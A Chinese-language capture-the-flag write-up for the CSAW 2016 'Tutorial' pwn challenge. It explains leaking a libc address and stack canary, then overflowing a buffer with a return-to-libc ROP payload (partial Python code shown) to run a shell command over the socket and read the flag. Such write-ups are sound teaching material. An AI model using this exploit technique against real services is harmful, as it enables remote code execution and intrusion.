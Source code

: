 # CSAW CTF 2016 Quals: Tutorial (Pwn, 200)


說明：
> Ok sport, now that you have had your Warmup, maybe you want to checkout the Tutorial.
>
> [tutorial](https://github.com/isislab/CSAW-CTF-2016-Quals/raw/master/Pwn/Tutorial/tutorial) [libc-2.19.so](https://github.com/isislab/CSAW-CTF-2016-Quals/raw/master/Pwn/Tutorial/libc-2.19.so)

## 解題

下載binary後的例行動作：

```
$ checksec tutorial
[*] '/workspace/csawctf/tutorial'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
```

這個binary用了*stack canary*和*NX bit*，要先找到canary value才能進行stack buffer overflow，而且因為NX bit也不能直接執行stack上的 shellcode。

先嘗試執行binary，即時得到個segfault：

```
(gdb) run
Starting program: /workspace/csawctf/tutorial

Program received signal SIGSEGV, Segmentation fault.
__GI_____strtol_l_internal (nptr=0x0, endptr=endptr@entry=0x0,
    base=base@entry=10, group=group@entry=0,
    loc=0x7ffff7bd0060 <_nl_global_locale>) at ../stdlib/strtol_l.c:298
298	../stdlib/strtol_l.c: No such file or directory.
```

用Hopper Disassembler反組譯這個binary，發現這個程式用argv[1]作為listening socket的port。

```
(gdb) run 9999
Starting program: /workspace/csawctf/tutorial 9999
User tutorial does not exist
accept: Bad file descriptor
```

執行`./tutorial 9999`沒有segfault，不過嘗試`nc localhost 9999`時會得到另一個錯誤，原來這個程式還要以*tutorial*用戶運行。在系統加入一個用戶應該就可以，不過我選擇用Hopper直接把這個檢查改為NOP，順手看見附近有一個alarm也NOP掉以免阻礙debug。這樣總算可以成功執行這個 binary：

```
$ nc localhost 9999
-Tutorial-
1.Manual
2.Practice
3.Quit
>1
Reference:0x7ffff7880860
-Tutorial-
1.Manual
2.Practice
3.Quit
>2
Time to test your exploit...
>AAAAA
AAAAA
@????x"???*e????-Tutorial-
1.Manual
2.Practice
3.Quit
>
```

選擇Manual會得到一個記憶位址，反組譯`func1`看到這個位址其實是`dlsym(0xffffffffffffffff, "puts")-0x500`，這是一個libc function的位址，有了這個位址就可以用return-to-libc方法去繞過*NX bit*的限制。

再看看Practice選項（`func2`）。

![func2](func2.png)

`func2`有三個stack variables：8 bytes stack canary，312 bytes buffer和4 byte的socket file descriptor。這個function從 socket讀取460 bytes寫進buffer，然後再由buffer讀324 bytes寫到socket。由於buffer只有 312 bytes，利用這個function就可以覆寫stack frame的return address取得control flow，因為它還會把buffer之後的12 bytes寫出來，我們還可以得到stack canary的值和上一個stack frame的`rbp`的最低32 bits。

## Exploit

去到這裡，要怎樣exploit己經很清楚，先要用Manual選項取得libc address，從Practice選項讀取stack canary和stack base address，再一次用Practice選項覆寫stack frame的return address取得control flow，再引導去libc的`system()`取得shell。不過還有一個麻煩的地方，就是這個binary用socket進行IO，我們要把shell的stdin/stdout重定向到socket的file descriptor才可以看到output。

```
$ strace -f ./tutorial 9999
...
[pid  5304] write(4, "-Tutorial-\n", 11) = 11
...
```

從`strace`看到socket的file descriptor總是`4`。最先想到的辦法就是把`sh >&4 <&4`寫到buffer上作為`system()`的 argument。因為Manual選項洩漏了`rbp`的最低32 bits，可以憑這個估算buffer的address，只要在libc裡找個`pop rdi`的ROP gadget把buffer address寫進`rdi`（System V calling convention 的第一個 function parameter），再把`rip`指到`system()`就可以了。可是執行起上來時發現不知道為什麼只有buffer的前7個character可用，連`cat *>&4`也不夠。隊友提議用`hd *>&4`，但伺服器好像沒有這個指令，之後在[two letter linux command](http://www.hioreanu.net/cs/two-letter-commands.html)裡發現`od`用得著。結果得到flag的八進制內容：

```
0000000 046106 043501 031573 051501 057531 030122 057520 030122
0000020 057520 030120 057520 030120 057520 052531 057515 052531
0000040 057515 044103 046525 041537 052510 076515 000012
...
```

這是 payload：

```python
payload = "od *>&4\0"
payload += 'A' * (312-len(payload))
payload += canary
payload += 'D' * 8
payload += p64(proc_open_addr + 0x1e7) # pop rdi; ret
payload += p32(buf_addr)
payload += p32(stack_base)
payload += p64(proc_open_addr + system_offset)
```

完整解答：[tutorial.py](tutorial.py)

這個方法其實不夠簡潔，更直接的做法是先用`dup2()`把`fd 4`複製到stdin/stdout，再行`system("/bin/sh")`，這樣就可以取得完整的shell，不過既然取到flag那就算了。

## Flag

```
FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}
```

## 其他解答

- https://github.com/ctfs/write-ups-2016/blob/master/csaw-ctf-2016-quals/Pwn/Tutorial-200/README.md
